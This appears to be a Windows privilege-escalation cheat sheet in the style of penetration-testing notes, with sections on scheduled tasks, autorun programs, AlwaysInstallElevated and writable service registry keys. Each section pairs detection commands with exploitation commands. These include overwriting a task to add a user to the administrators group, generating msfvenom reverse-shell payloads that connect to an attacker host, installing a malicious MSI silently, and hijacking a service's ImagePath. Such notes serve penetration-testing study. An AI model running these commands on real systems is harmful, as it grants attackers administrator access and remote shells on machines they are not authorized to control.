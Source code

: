 ### Tasks
* Detection
```
schtasks
schtasks /query /tn <task> /fo list /v
icacls <task_path> 
\\ BUILTIN\Users:(I)(F)
```

* Exploitation
```
echo "net localgroup administrators user /add" > <task_path>
schtasks /run /tn <task>
```

### Autorun
* Detection
```  
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu ""C:\Program Files\Autorun Program"  
\\FILE_ALL_ACCESS
```

* Exploitation  
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f exe -o program.exe
```
```
move program.exe "C:\Program Files\Autorun Program"
logoff
```
  
### AlwaysInstallElevated
* Detection  
```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer 
\\ value is 1  
reg query HKCU\Software\Policies\Microsoft\Windows\Installer  
\\ value is 1 
```

* Exploitation  
```
msfvenom -p windows/x64/shell_reverse_tcp lhost=ip lport=port -f msi -o ok.msi
msiexec /quiet /qn /i C:\Temp\ok.msi
```

### Registry
* Detection
```
powershell.exe -c "Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl"  
\\NT AUTHORITY\INTERACTIVE Allow FullControl  
net localgroup administrators
```

* Exploitation
```
wget https://raw.githubusercontent.com/sagishahar/scripts/master/windows_service.c (edit)  
sudo apt install gcc-mingw-w64  
x86_64-w64-mingw32-gcc windows_service.c -o ok.exe  
```
```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\ok.exe /f  
sc start regsvc  
net localgroup administrators
```

